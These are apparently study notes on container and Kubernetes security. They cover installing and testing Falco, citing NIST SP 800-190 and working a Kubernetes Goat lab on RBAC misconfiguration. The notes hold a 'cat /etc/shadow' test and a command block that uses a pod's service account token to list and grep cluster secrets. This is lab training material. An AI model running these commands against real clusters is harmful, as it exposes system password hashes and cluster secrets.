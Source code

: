 ### Runtime security

Falco

https://github.com/falcosecurity/falco

You can try on Killercoda!

```bash
curl -s https://falco.org/repo/falcosecurity-3672BA8F.asc | apt-key add -
echo "deb https://download.falco.org/packages/deb stable main" | tee -a /etc/apt/sources.list.d/falcosecurity.list
apt-get update -y
apt-get -y install linux-headers-$(uname -r)
apt-get install -y falco
falco
```

```bash
docker run --name nginx --rm -it -d nginx
```

```bash
docker exec -it nginx bash
cat /etc/shadow
```

https://github.com/developer-guy/awesome-falco

### NIST framework for containers

https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-190.pdf

## Kubernetes 

### RBAC misconfiguration

Kubernetes Goat -  http://127.0.0.1:1236

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep -i key
```
